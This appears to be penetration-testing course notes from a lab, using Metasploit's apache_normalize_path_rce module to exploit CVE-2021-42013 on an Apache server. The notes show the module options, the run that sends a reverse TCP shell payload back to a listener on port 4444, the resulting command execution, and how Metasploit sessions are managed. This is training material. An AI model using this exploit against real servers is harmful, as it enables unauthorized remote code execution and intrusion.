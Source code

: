 We should note that we don't need to start a listener manually with tools such as _Netcat_ to receive the incoming reverse shell
+ Metasploit automatically sets up a listener matching the specified payload

Now, let's set the options _SSL_ to false and _RPORT_ to 80 since the target Apache web server runs on port 80 without HTTPS
+ Then, we set _RHOSTS_ to the target IP and enter **run**
```
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
SSL => false

msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
RPORT => 80

msf6 exploit(multi/http/apache_normalize_path_rce) > set RHOSTS 192.168.50.16
RHOSTS => 192.168.50.16

msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.2:4444
[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/shell_reverse_tcp command payload
[*] Command shell session 2 opened (192.168.119.4:4444 -> 192.168.50.16:35534) at 2022-08-08 05:13:45 -0400
[!] This exploit may require manual cleanup of '/tmp/ruGC' on the target

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Once launched, the exploit module first starts a listener on port 4444 and uses the previously shown auxiliary module to check if the target is indeed vulnerable
+ Above shows that it is vulnerable 
+ Then, the vulnerability is exploited and the payload is sent
+ The console states that a session is opened, and we have obtained command execution

Before we head to the next section, let's explore the concept of _sessions_ and _jobs_ in Metasploit
+ Sessions are used to interact and manage access to successfully exploited targets, while jobs are used to run modules or features in the background

When we launched the exploit with **run**, a session was created and we obtained an interactive shell
+ We can send the session to the background by pressing Ctrl+z and confirming the prompt
+ Once the session is sent to the background, we can use **`sessions -l`** to list all active sessions:
```
Background session 2? [y/N]  y

msf6 exploit(multi/http/apache_normalize_path_rce) > sessions -l

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  ...
  2         shell x64/linux               192.168.119.4:4444 -> 192.168.50.16:35534 (192.168.50.16)
```
